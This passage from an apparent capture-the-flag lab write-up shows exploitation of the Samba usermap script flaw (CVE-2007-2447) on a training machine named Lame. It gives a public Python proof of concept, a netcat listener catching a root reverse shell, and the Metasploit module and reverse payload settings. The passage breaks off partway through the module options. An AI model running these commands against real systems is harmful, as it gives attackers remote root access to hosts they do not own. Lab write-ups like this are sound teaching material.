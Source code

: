 

### Python Script

Some Googling led me to [this
GitHub](https://github.com/amriunix/CVE-2007-2447) with a Python POC for
the exploit. I can get a shell easily, by following the "install"
instructions and then running the script:



    root@kali# python usermap_script.py 10.10.10.3 139 10.10.14.24 443
    [*] CVE-2007-2447 - Samba usermap script
    [+] Connecting !
    [+] Payload was sent - check netcat !



Sure enough, I get a shell from Lame:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:44666.
    id
    uid=0(root) gid=0(root)



### With Metasploit

I can also do this with Metasploit.



    msf5 > use exploit/multi/samba/usermap_script
    msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
    rhosts => 10.10.10.3
    msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
    payload => cmd/unix/reverse
    msf5 exploit(multi/samba/usermap_script) > set lhost tun0
    lhost => 10.10.14.24
    msf5 exploit(multi/samba/usermap_script) > set lport 443
    lport => 443



Now I can check out the options and make sure everything looks right:



    msf5 exploit(multi/samba/usermap_script) > options

    Module options (exploit/multi/samba/usermap_script):

       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
       RPORT   139              yes       The target port (TCP)
